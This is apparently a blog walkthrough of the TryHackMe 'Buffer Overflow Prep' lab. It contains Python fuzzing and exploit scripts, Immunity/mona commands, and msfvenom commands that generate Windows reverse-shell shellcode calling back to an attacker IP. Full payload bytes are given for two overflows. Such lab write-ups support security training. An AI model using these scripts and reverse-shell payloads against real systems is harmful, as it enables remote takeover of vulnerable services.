

*2021-09-04*

*kimm3*

# Walkthrough: Buffer Overflow Prep
Platform: TryHackMe

Difficulty: Easy

- [Link](https://tryhackme.com/room/bufferoverflowprep)

This is not a box in the traditional sense, we're given access via rdp to a windows machine to practice BOFs.

- [Tib3rius github BOF waklthrough.](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)
- [TCM BOF youtube playlist](https://www.youtube.com/watch?v=qSnPayW6F7U&list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G)

The setup and OVERFLOW1 is pretty detailed, the rest is just differences between the commands.

## Setup
Start machine in thm, open rdp with xfreerdp and authenticate with admin/password.

`xfreerdp /v:10.10.167.17 /u:admin /p:password`


Run Immunity Debugger as administrator, open oscp.exe(admin desktop).

When it's running we can connect with netcat, it accepts the HELP command which shows the following options:


Each command is vulnerable in some way, and the room/excercise is to exploit them all.

Below is my python scripts that I used for this.

### Fuzz
This will fuzz, create a pattern and send it, you supply the value in the EIP and it tells where the offset is.

```
#!/usr/bin/python3

import sys, time, os, socket

# Target values
ip = "10.10.167.17"
port = 1337
cmd = "OVERFLOW1 "

# Array of increasing values
buffer = []
size = 100
inc_value = 100
iterations = 100

for i in range(0, iterations):
    buffer.append("A" * size)
    size += inc_value

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(3)
        s.connect((ip, port))
        s.recv(1024)

        sendbuff = cmd + string + "\r\n"
        s.send(sendbuff.encode())

        print(s.recv(1024).decode() + "size: " + str(len(string)))
        s.close()
        time.sleep(1)
    except:
        print("no connection")
        print("Last string size sent was " + str(len(string)))
        length_value = len(string) + 500
        break

# Create and send pattern to find offset
stream = os.popen('/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l ' + str(length_value))
pattern = stream.read()

print("created pattern, sending it")
input("press enter when service is restarted")

offsock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
offsock.connect((ip, port))
sendbuff = cmd + pattern + "\r\n"
offsock.send(sendbuff.encode())

# Input value from user and find offset
eip_value = input("EIP: ")
stream = os.popen('/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l ' + str(length_value) + " -q " + eip_value)
offset_location = stream.read().strip('\n')
print(offset_location)
```
### Bad characters
As the exploit.py down below but with these values.
```
# sendbuff values
cmd = "OVERFLOW5 "
offset = 314
overflow = "A" * offset
eip_val = "CCCC"
nops = ""
payload = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
  )
post = ""
linebreak = ""
```

### Exploit
```
#!/usr/bin/python3

import socket

# socket values
ip = ""
port = 1

# sendbuff values
cmd = ""
offset = ""
overflow = ""
eip_val = ""
nops = ""
payload = ""
post = "\r\n"

sendbuffer = cmd + overflow + eip_val + nops + payload + post

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(3)
s.connect((ip, port))
s.send(sendbuffer.encode('latin1'))
```

## Target machine
A text file with the following content to quickly copy/paste commands to make the process quicker.
```
!mona bytearray -b "\x00"
!mona comapre -f "C:\Program Files\Immunity Inc\Immunity Debugger\bytearray.bin" -a
```
## OVERFLOW1
Fuzzing OVERFLOW1:


Somewhere around 2000.

Used pattern_create and pattern_offset in the script to find the exact offset.


Confirm this by writing a certain string to EIP and compare.


In this example I used all C's, which equals to 434343.

### Bad chars
Send the exploit.py

Generate badchars with mona, run comparison.

`!mona bytearray -b "\x00"`

`!mona compare -f [filename] -a [esp-address]`

After removing \x07, \x2e and \xa0.


Bad chars list: "\x00\x07\x2e\xa0"

Let's find a jump point.

`!mona jmp -r esp -cpb "\x00"`


Pick one with all false.


`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x07\x2e\xa0"`

Generating payload and add it to exploit script.


### Final parameters
```
cmd = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
eip_val = "\xaf\x11\x50\x62"
nops = "\x90" * 16
payload = ("\xbb\xe9\xde\x2f\x5e\xd9\xc2\xd9\x74\x24\xf4\x5f\x2b\xc9\xb1"
"\x52\x83\xc7\x04\x31\x5f\x0e\x03\xb6\xd0\xcd\xab\xb4\x05\x93"
"\x54\x44\xd6\xf4\xdd\xa1\xe7\x34\xb9\xa2\x58\x85\xc9\xe6\x54"
"\x6e\x9f\x12\xee\x02\x08\x15\x47\xa8\x6e\x18\x58\x81\x53\x3b"
"\xda\xd8\x87\x9b\xe3\x12\xda\xda\x24\x4e\x17\x8e\xfd\x04\x8a"
"\x3e\x89\x51\x17\xb5\xc1\x74\x1f\x2a\x91\x77\x0e\xfd\xa9\x21"
"\x90\xfc\x7e\x5a\x99\xe6\x63\x67\x53\x9d\x50\x13\x62\x77\xa9"
"\xdc\xc9\xb6\x05\x2f\x13\xff\xa2\xd0\x66\x09\xd1\x6d\x71\xce"
"\xab\xa9\xf4\xd4\x0c\x39\xae\x30\xac\xee\x29\xb3\xa2\x5b\x3d"
"\x9b\xa6\x5a\x92\x90\xd3\xd7\x15\x76\x52\xa3\x31\x52\x3e\x77"
"\x5b\xc3\x9a\xd6\x64\x13\x45\x86\xc0\x58\x68\xd3\x78\x03\xe5"
"\x10\xb1\xbb\xf5\x3e\xc2\xc8\xc7\xe1\x78\x46\x64\x69\xa7\x91"
"\x8b\x40\x1f\x0d\x72\x6b\x60\x04\xb1\x3f\x30\x3e\x10\x40\xdb"
"\xbe\x9d\x95\x4c\xee\x31\x46\x2d\x5e\xf2\x36\xc5\xb4\xfd\x69"
"\xf5\xb7\xd7\x01\x9c\x42\xb0\x27\x69\x9e\x33\x50\x6b\x1e\xb5"
"\x1b\xe2\xf8\xdf\x4b\xa3\x53\x48\xf5\xee\x2f\xe9\xfa\x24\x4a"
"\x29\x70\xcb\xab\xe4\x71\xa6\xbf\x91\x71\xfd\x9d\x34\x8d\x2b"
"\x89\xdb\x1c\xb0\x49\x95\x3c\x6f\x1e\xf2\xf3\x66\xca\xee\xaa"
"\xd0\xe8\xf2\x2b\x1a\xa8\x28\x88\xa5\x31\xbc\xb4\x81\x21\x78"
"\x34\x8e\x15\xd4\x63\x58\xc3\x92\xdd\x2a\xbd\x4c\xb1\xe4\x29"
"\x08\xf9\x36\x2f\x15\xd4\xc0\xcf\xa4\x81\x94\xf0\x09\x46\x11"
"\x89\x77\xf6\xde\x40\x3c\x16\x3d\x40\x49\xbf\x98\x01\xf0\xa2"
"\x1a\xfc\x37\xdb\x98\xf4\xc7\x18\x80\x7d\xcd\x65\x06\x6e\xbf"
"\xf6\xe3\x90\x6c\xf6\x21")
post = "\r\n"
```

## OVERFLOW2
### Fuzz and offset


### Badchars


Removing: "\x00\x23\x3c\x83\xba"


### Exploit
Jmp parameter: "\xaf\x11\x60\62"


Generating shellcode:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x23\x3c\x83\xba"`


### Final parameters
```
# sendbuff values
cmd = "OVERFLOW2 "
offset = 634
overflow = "A" * offset
eip_val = "\xaf\x11\x50\x62"
nops = "\x90" * 16
payload = ("\xfc\xbb\x11\x1a\xad\xe0\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\xed\xf2\x2f\xe0\x0d"
"\x03\x50\x68\xe8\x32\x50\x0e\x79\x64\x60\x44\x2f\x89\x0b\x08"
"\xdb\x1a\x79\x85\xec\xab\x34\xf3\xc3\x2c\x64\xc7\x42\xaf\x77"
"\x14\xa4\x8e\xb7\x69\xa5\xd7\xaa\x80\xf7\x80\xa1\x37\xe7\xa5"
"\xfc\x8b\x8c\xf6\x11\x8c\x71\x4e\x13\xbd\x24\xc4\x4a\x1d\xc7"
"\x09\xe7\x14\xdf\x4e\xc2\xef\x54\xa4\xb8\xf1\xbc\xf4\x41\x5d"
"\x81\x38\xb0\x9f\xc6\xff\x2b\xea\x3e\xfc\xd6\xed\x85\x7e\x0d"
"\x7b\x1d\xd8\xc6\xdb\xf9\xd8\x0b\xbd\x8a\xd7\xe0\xc9\xd4\xfb"
"\xf7\x1e\x6f\x07\x73\xa1\xbf\x81\xc7\x86\x1b\xc9\x9c\xa7\x3a"
"\xb7\x73\xd7\x5c\x18\x2b\x7d\x17\xb5\x38\x0c\x7a\xd2\x8d\x3d"
"\x84\x22\x9a\x36\xf7\x10\x05\xed\x9f\x18\xce\x2b\x58\x5e\xe5"
"\x8c\xf6\xa1\x06\xed\xdf\x65\x52\xbd\x77\x4f\xdb\x56\x87\x70"
"\x0e\xf8\xd7\xde\xe1\xb9\x87\x9e\x51\x52\xcd\x10\x8d\x42\xee"
"\xfa\xa6\xe9\x15\x6d\xc3\xe5\xc7\x1e\xbb\xf7\xe7\xe1\x80\x71"
"\x01\x8b\xe6\xd7\x9a\x24\x9e\x7d\x50\xd4\x5f\xa8\x1d\xd6\xd4"
"\x5f\xe2\x99\x1c\x15\xf0\x4e\xed\x60\xaa\xd9\xf2\x5e\xc2\x86"
"\x61\x05\x12\xc0\x99\x92\x45\x85\x6c\xeb\x03\x3b\xd6\x45\x31"
"\xc6\x8e\xae\xf1\x1d\x73\x30\xf8\xd0\xcf\x16\xea\x2c\xcf\x12"
"\x5e\xe1\x86\xcc\x08\x47\x71\xbf\xe2\x11\x2e\x69\x62\xe7\x1c"
"\xaa\xf4\xe8\x48\x5c\x18\x58\x25\x19\x27\x55\xa1\xad\x50\x8b"
"\x51\x51\x8b\x0f\x71\xb0\x19\x7a\x1a\x6d\xc8\xc7\x47\x8e\x27"
"\x0b\x7e\x0d\xcd\xf4\x85\x0d\xa4\xf1\xc2\x89\x55\x88\x5b\x7c"
"\x59\x3f\x5b\x55\x59\xbf\xa3\x56")
post = "\r\n"
```
## OVERFLOW3


Did two comparisons total.

Final bad char string: "\x00\x11\x40\x5f\xb8\xee"

`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x11\x40\x5f\xb8\xee"`

Had to change jmp address for this one to  work:


## OVERFLOW4


Final bad char string: "\x00\xa9\xcd\xd4"

`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\xa9\xcd\xd4"`

Same jumper as last command.

## OVERFLOW5


Final bad char string: "\x00\x16\x2f\xf4\xfd"

`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x16\x2f\xf4\xfd"`


## OVERFLOW6


Final bad char string: "\x00\x08\x2c\xad"

`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x08\x2c\xad"`


## OVERFLOW7


Final bad char string: "\x8c\xae\xbe\xfb"


`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x8c\xae\xbe\xfb"`


## OVERFLOW8




`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x1d\x2e\xc7\xee"`


## OVERFLOW9


40 shows up because 3f was bad.


`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x04\x3e\x3f\xe1"`


## OVERFLOW10


`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\xa0\xad\xbe\xde\xef"`


